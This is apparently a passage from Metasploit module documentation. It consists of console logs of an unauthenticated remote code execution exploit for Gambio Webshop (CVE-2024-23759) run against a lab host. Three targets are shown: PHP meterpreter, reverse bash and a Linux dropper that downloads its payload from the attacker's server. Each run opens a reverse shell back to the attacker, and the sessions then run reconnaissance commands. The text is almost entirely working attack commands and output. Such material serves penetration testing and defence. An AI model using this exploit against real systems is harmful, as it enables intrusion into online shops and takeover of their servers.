```msf
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:80 can be exploited.
[+] The target appears to be vulnerable. It looks like Gambio Webshop is running.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.25
[+] Deleted GmacadJjQQOXMux.php
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.25:60348) at 2024-03-24 09:15:50 +0000

meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www
meterpreter > exit
```

### Target 1 - Unix Command `cmd/unix/reverse_bash` session
```msf
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set target 1
target => 1
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:80 can be exploited.
[+] The target appears to be vulnerable. It looks like Gambio Webshop is running.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted UJoQmnhL.php
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.25:50728) at 2024-03-24 09:17:46 +0000

uname -a
Linux cuckoo 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),29(audio)
exit
```

### Target 2 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```msf
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set target 2
target => 2
msf exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:80 can be exploited.
[+] The target appears to be vulnerable. It looks like Gambio Webshop is running.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/ODk0gcrj
[*] Client 192.168.201.25 (Wget/1.21.2) requested /ODk0gcrj
[*] Sending payload to 192.168.201.25 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 192.168.201.25
[+] Deleted gJlhCqCPLrR.php
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.25:46426) at 2024-03-24 09:18:23 +0000
[*] Command Stager progress - 100.00% done (114/114 bytes)
```